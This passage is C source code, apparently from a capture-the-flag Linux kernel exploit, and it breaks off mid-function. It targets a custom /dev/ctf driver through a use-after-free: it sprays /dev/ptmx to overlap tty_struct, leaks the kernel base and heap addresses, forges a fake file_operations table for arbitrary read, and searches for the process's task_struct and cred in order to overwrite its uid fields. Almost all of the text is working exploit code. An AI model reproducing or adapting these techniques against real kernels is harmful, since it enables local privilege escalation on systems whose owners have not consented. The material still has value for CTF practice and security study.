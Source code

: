 ```c
 */
int main()
{
    chr_ptr = (char *) malloc(0x1000); u32_ptr = (unsigned *) chr_ptr; u64_ptr = (unsigned long *) chr_ptr;

    ctf_fd = open("/dev/ctf", O_RDWR);
    if (ctf_fd == -1)
        perr("open /dev/ctf failed");

    new_ctfdata(0x2b8);
    free_ctfdata();

    for (int i = 0; i < 0x100; i++)
        spray[i] = open("/dev/ptmx", O_NOCTTY | O_RDONLY);

    // leak kernel addr
    read(ctf_fd, chr_ptr, 0x2b8);
    if (u32_ptr[0] == TTY_MAGIC)
        puts("[+] overlap with tty_struct");
    else
        perr("[-] next time :(");

    show_u64ptr(u64_ptr, 0x2b8);
    file_operations = u64_ptr[3];
    kernel_base = u64_ptr[3] - 0x10745e0;
    heap = u64_ptr[7] - 0x38; // bp in kfree can know
    printf("[+] file_operations: 0x%016lx\n", file_operations);
    printf("[+] kernel_base: 0x%016lx\n", kernel_base);
    printf("[+] heap: 0x%016lx\n", heap);

    // we hijack tty_struct.name (char name[64]) to create our fake_ops
    // ops offset is 3
    // name offset is 45
    // iotcl offset is 12 in file_operations
    u64_ptr[3] = heap + (45-12+1) * 8;
    write(ctf_fd, chr_ptr, 0x2b8);

    char name[4] = {0};
    int rand_fd = open("/dev/urandom", O_RDONLY);
    read(rand_fd, name, 4);
    close(rand_fd);

    prctl(PR_SET_NAME, name);
    unsigned long cred_addr = 0;
    unsigned long task_struct = 0;
    unsigned long start = heap;
    unsigned long end = heap + 0x100000000;

    printf("[*] ioctl --> mov_rax_prdx_ret: 0x%016lx\n", kernel_base + mov_rax_prdx_ret);
    printf("[*] ioctl --> mov_prdx_esi: 0x%016lx\n", kernel_base + mov_prdx_esi);
    for (unsigned long cur = start; cur < end; cur += 0x8) {
        if ((cur & 0xffffff) == 0)
            printf("[*] current: 0x%016lx\n", cur);
        if (aar32(cur) == *(unsigned *)name) {
            task_struct = cur - 0xae8;
            cred_addr = task_struct + 0xad8;
            printf("[+] found task_struct.comm:\t0x%016lx\n", cur);
            printf("[+] found task_struct.cred:\t0x%016lx\n", cred_addr);
            printf("[+] found task_struct:\t0x%016lx\n", task_struct);
            // overwrite Xid
            unsigned long upper = aar32(cred_addr+4) & 0xffffffff;
            unsigned long lower = aar32(cred_addr);
```